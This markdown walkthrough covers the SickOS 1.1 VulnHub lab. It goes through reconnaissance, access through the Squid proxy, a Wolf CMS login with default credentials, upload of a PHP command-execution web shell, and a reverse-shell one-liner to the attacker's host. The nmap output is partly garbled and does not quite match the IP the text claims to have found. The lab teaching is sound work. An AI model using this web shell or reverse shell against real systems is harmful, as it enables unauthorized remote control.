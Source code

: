 # SickOS 1.1 Walkthrough (Getting root)
-----------------------------------------
- OS (Box): Ubuntu (SickOS 1.1 - https://www.vulnhub.com/entry/sickos-11,132/)
- Objective: Obtain root user, and find flag in /root/ directory (without using any walkthroughs).
-----------------------------------------

# 1. Nmap
- **We could not find the IP address for the box using ‘nmap -sn’ or ‘-Pn’ scan. But using sudo it is possible to scan for the box.**
  ```
  (kali@kali)-[~] $ nmap -sn 192.168.56.0/24 
  Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-19 15:14 ESTIU 
  Nmap scan report for (192.168.56.1) Host is up (0.00024s latency). 
  Nmap scan report for 192.168.56.3 cm Host is up (0.00013s latency). Nmap done: 256 IP addresses (2 hosts up) scanned in 2.97 seconds
  ```
  > 192.168.56.11 is identified as SickOS. (.1 is the host machine, .2 is the VirtualBox router (https://router-network.com/ip/192-168-56-2), and .3 is Kali.)

- **Using ‘nmap -sV’ we can see the running services. Squid proxy on Port 3128 seems promising, so let's look into that.**

  ```
  (kali@kali) - [~] $ sudo nmap -sV 192.168.56.11 
  Starting Nmap 7.91 ( https://nmap.org) at 2022-02-19 15:51 EST 
  Nmap scan report for 192.168.56.11 Host is up (0.00031s latency) 
  Not shown: 997 filtered ports PORT STATE SERVICE VERSION 
  22/tcp open ssh OpenSSH 5.9p1 Debian Subuntul.1 (Ubuntu Linux; protocol 2.0) 
  3128/tcp open http proxy Squid http proxy 3.1.19 
  8080/tcp closed http-proxy MAC Address: 08:00:27:AB:F1:24 (Oracle VirtualBox virtual NIC) Service Info: 05: Linux; CPE: cpe:/o:linux:linux kernel
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 15.92 seconds
  ```
-----------------------------------------
# 2. Proxy
- FoxyProxy is a Firefox extension which automatically switches an internet connection across one or more proxy servers based on URL patterns; put simply, FoxyProxy automates the manual process of editing Firefox's Connection Settings dialog.
Let’s use the extension to connect to the Squid http proxy by entering in the box’s IP address and Port 3128. We are able to connect to the proxy server without any type of authentication. Then we’re able to access the running web service, which is just a blank page with text.


  ![img](https://i.ibb.co/xMzxv0t/Screenshot-2.png)

  ![img](https://i.ibb.co/dM4qF3n/Screenshot-1.png)

-----------------------------------------

# 3. Dirb
- The tool ‘dirb’ (with -p specified) lists a few 200 codes for you to explore. The page robots.txt shows a disallow on /wolfcms/ therefore let’s look further into the box’s CMS. 

  ![img](https://i.ibb.co/jv1s4hd/Screenshot-1.png)

- Browsing online through Wolf CMS’s documentation, I noticed a config.php file that Wolf CMS creates during installation. So let’s dirb the /wolfcms directory to see if it’s there. And there it is.
(Wolf CMS Documentation: https://wolf-cms.readthedocs.io/en/latest/getting-started/installation/)

  ![img](https://i.ibb.co/pWqgzGN/Screenshot-3.png)
  > http://192.168.56.11/wolfcms/config (CODE:200|SIZE:403)
-----------------------------------------

# 4. Wolf CMS Login
- Regarding from the Wolf CMS’s documentation, we find ‘wolfcms/?/admin/login’ which is the admin login panel. Using the default credentials admin:admin, we can access the CMS as admin. Click around a bit (to understand how the CMS works) and you will find a page that allows file uploading.


  ![img](https://i.ibb.co/BT31Mx2/Screenshot-1.png)
-----------------------------------------

# 5. Wolf CMS File Upload and Permissions
- Let’s upload a php file randomly named yaya.php that will allow shell commands to be sent via a GET request. We can use this php script

  ```php
  <?php if (isset($_GET['cmd'])) { print(shell_exec($_GET['cmd'])); }
  ```
- In this PHP script, we set a function which checks if a variable is specified and not ‘NULL’ in a HTTP GET request. Then the ‘shell_exec’ function will execute commands via a shell, after a variable is specified (cmd); commands are positioned after cmd=. The php script executes and displays the results on the web page.

  ![img](https://i.ibb.co/BV2MZ3b/Screenshot-2.png)
  > This would execute commands on the server's backend that allow us to run commands on the box. For example, you can try cmd=pwd and it will return the current file path. (Note: We are still connected through the proxy.) ![img](https://i.ibb.co/7V9DLTg/Screenshot-1.png)

- However, you will soon find out that the current user does not have admin/sudo privileges. 
- Back under the Files tab, it seems we can change file permissions!

  ![img](https://i.ibb.co/ThmPYTz/Screenshot-3.png)
-----------------------------------------

# 6. Creating a Reverse Shell

- Using a shell will allow us to navigate more efficiently. So we can upload a file named test.sh with this script in the body:
  ```bash
  sh -i >& /dev/udp/192.168.56.3/1337 0>&1
  ```
